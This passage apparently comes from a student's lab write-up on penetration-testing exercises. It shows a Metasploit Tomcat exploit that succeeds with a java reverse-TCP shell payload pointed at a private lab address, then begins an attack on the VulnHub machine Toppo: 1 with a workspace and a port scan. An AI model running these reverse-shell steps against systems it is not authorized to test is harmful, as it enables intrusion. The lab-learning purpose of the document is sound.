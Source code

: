 No errors, but no session created. Think the payload is wrong.
After some attempts at different payloads and looking around online I figured out I needed to give the exploit a localhost address to connect to.

`set payload java/shell/reverse_tcp`
`set lhost 192.168.56.102`
`set lport 4321` 
`exploit`

Works!

![Tomcat exploit success](/week-2/tomcat-success.png)

## c) Install a machine from VulnHub. Break in.

Chose Toppo: 1 as the target machine, it was one of the ones recommended for beginners.

Created virtualbox and installed the vdmk. Machine just shows its IP 192.168.56.103 and a login.

`msf6 > workspace -a toppo`

Lets start again with a portscan.

![Toppo nmap results](/week-2/toppo-nmap.png)

I open up the webpage and find a blog, that looks like its made from a template with minimal edits.
